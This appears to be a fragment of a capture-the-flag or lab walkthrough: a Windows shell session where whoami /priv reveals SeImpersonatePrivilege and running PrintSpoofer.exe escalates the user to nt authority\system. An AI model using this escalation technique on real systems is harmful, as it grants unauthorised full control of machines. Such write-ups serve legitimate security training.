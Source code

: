 C:\\Users\>whoami
whoami
jacko\\tony

C:\\Users\>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

-  PrintSpoofer\.exe \-i \-c cmd\.exe
C:\\Windows\\system32\>whoami  
whoami 
nt authority\\system